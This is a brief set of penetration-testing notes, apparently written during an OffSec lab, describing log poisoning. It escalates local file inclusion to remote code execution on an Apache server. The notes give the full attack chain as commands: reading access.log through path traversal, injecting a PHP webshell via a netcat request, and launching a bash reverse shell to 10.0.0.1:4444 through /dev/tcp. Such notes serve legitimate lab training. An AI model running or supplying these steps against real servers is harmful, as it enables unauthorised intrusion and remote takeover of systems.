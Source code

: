 -- -
If you are able to read local files on the file system via the webapp, then see if you can read the apache logs:
```bash
/var/log/apache2/access.log
```
If you can, then you can put a webshell into it:
```bash
# connect to webapp via netcat
nc -nv <target ip> 80

# input webshell, this will be saved to the log
# note DO NOT MESS THIS UP. If you do then you will have closed the vector.
GET <?php system($_GET[‘cmd’]); ?> HTTP/1.1

# test it works
# remember, it's the & symbole NOT ?
http://<target host>/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id

# should see the id command output
```
Then you can just try to get a reverse shell from there:
```bash
# may or may not need encoding
# note: I got it working with a python reverse shell
http://<target host>/index.php?book=../../../../../../var/log/apache2/access.log&cmd=bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
#### Resource
- [Walkthrough that helped me](https://medium.com/@bl4ck4non/solstice-offsec-labs-writeup-5606c806b253)